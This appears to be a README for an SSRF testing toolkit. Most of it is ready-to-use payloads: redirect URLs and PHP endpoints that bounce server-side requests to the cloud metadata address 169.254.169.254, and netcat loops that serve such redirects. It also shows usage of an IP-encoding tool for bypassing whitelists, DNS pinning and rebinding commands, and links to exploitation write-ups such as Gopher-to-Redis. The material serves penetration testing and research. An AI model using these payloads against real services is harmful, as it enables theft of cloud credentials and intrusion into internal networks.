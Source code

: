 # SSRF Testing

***

### htaccess - redirect test for various cases
Status codes: 300, 301, 302, 303, 305, 307, 308

Filetypes: jpg, json, csv, xml
#### Live demo:
jpg 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/img-without-body/301-http-169.254.169.254:80-.i.jpg`

`https://ssrf.localdomain.pw/img-without-body-md/301-http-.i.jpg`

`https://ssrf.localdomain.pw/img-with-body/301-http-169.254.169.254:80-.i.jpg`

`https://ssrf.localdomain.pw/img-with-body-md/301-http-.i.jpg`


json 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/json-without-body/301-http-169.254.169.254:80-.j.json`

`https://ssrf.localdomain.pw/json-without-body-md/301-http-.j.json`

`https://ssrf.localdomain.pw/json-with-body/301-http-169.254.169.254:80-.j.json`

`https://ssrf.localdomain.pw/json-with-body-md/301-http-.j.json`


csv 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/csv-without-body/301-http-169.254.169.254:80-.c.csv`

`https://ssrf.localdomain.pw/csv-without-body-md/301-http-.c.csv`

`https://ssrf.localdomain.pw/csv-with-body/301-http-169.254.169.254:80-.c.csv`

`https://ssrf.localdomain.pw/csv-with-body-md/301-http-.c.csv`


xml 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/xml-without-body/301-http-169.254.169.254:80-.x.xml`

`https://ssrf.localdomain.pw/xml-without-body-md/301-http-.x.xml`

`https://ssrf.localdomain.pw/xml-with-body/301-http-169.254.169.254:80-.x.xml`

`https://ssrf.localdomain.pw/xml-with-body-md/301-http-.x.xml`

***

### custom-30x - Custom 30x responses and Location header with PHP

#### Live demo:

`https://ssrf.localdomain.pw/custom-30x/?code=332&url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json`

***

### custom-200 - Custom 200 response and Content-Location header with PHP

#### Live demo:

`https://ssrf.localdomain.pw/custom-200/?url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json`

***

### custom-201 - Custom 201 response and Location header with PHP

#### Live demo:

`https://ssrf.localdomain.pw/custom-201/?url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json`

***

### Minimal web server using netcat

`while true ; do nc -l -p 80 -c 'echo -e "HTTP/1.1 302 Found\nContent-Type: application/json\nLocation: http://169.254.169.254/\n{\"a\":\"b\"}"'; done`

`while true ; do nc -l -p 554 -c 'echo -e "RTSP/1.0 301 Moved\nCSeq: 1\nLocation: http://169.254.169.254/"'; done`

***

### ip.py - Alternate IP encoding tool useful for SSRF Testing

python ip.py IP PORT WhiteListedDomain EXPORT(optional)

python ip.py 169.254.169.254 80 www.google.com

python ip.py 169.254.169.254 80 www.google.com export

***

### DNS pinning

nslookup ssrf-169.254.169.254.localdomain.pw

***

### DNS pinning race condition

nslookup ssrf-race-169.254.169.254.localdomain.pw

***

### DNS Rebinding

pip install twised

python dns.py WhitelistedIP InternalIP Port

python dns.py 216.58.214.206 169.254.169.254 53

http://webcache.googleusercontent.com/search?q=cache:http://www.611eternity.com/DNSRebinding%E6%8A%80%E6%9C%AF%E5%AD%A6%E4%B9%A0/

***

### cloud-metadata.txt - Cloud Metadata Dictionary useful for SSRF Testing

***

### svg - SSRF with svg files

***

### ffmpeg - SSRF with ffmpeg

https://hackerone.com/reports/237381

https://hackerone.com/reports/243470

https://github.com/neex/ffmpeg-avi-m3u-xbin

https://www.blackhat.com/docs/us-16/materials/us-16-Ermishkin-Viral-Video-Exploiting-Ssrf-In-Video-Converters.pdf

https://docs.google.com/presentation/d/1yqWy_aE3dQNXAhW8kxMxRqtP7qMHaIfMzUDpEqFneos/edit#slide=id.g22371f2702_0_15

***

### Java/Python FTP Injections Allow for Firewall Bypass

http://webcache.googleusercontent.com/search?q=cache:http://blog.blindspotsecurity.com/2017/02/advisory-javapython-ftp-injections.html

http://webcache.googleusercontent.com/search?q=cache:https://shiftordie.de/blog/2017/02/18/smtp-over-xxe/

***

### SSRF + Gopher + Redis

http://webcache.googleusercontent.com/search?q=cache:http://vinc.top/2016/11/24/%E3%80%90ssrf%E3%80%91ssrfgopher%E6%90%9E%E5%AE%9A%E5%86%85%E7%BD%91%E6%9C%AA%E6%8E%88%E6%9D%83redis/

https://webcache.googleusercontent.com/search?q=cache:http://antirez.com/news/96

***

### Top 5 features that are often prone to SSRF vulnerabilities:

https://webcache.googleusercontent.com/search?q=cache:https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF

***

### AppSecEU15-Server_side_browsing_considered_harmful.pdf
https://www.youtube.com/watch?v=8t5-A4ASTIU

***

### us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf

***

### SSRF Tips
http://webcache.googleusercontent.com/search?q=cache:http://blog.safebuff.com/2016/07/03/SSRF-Tips/

***

### SSRF bible
https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM

***
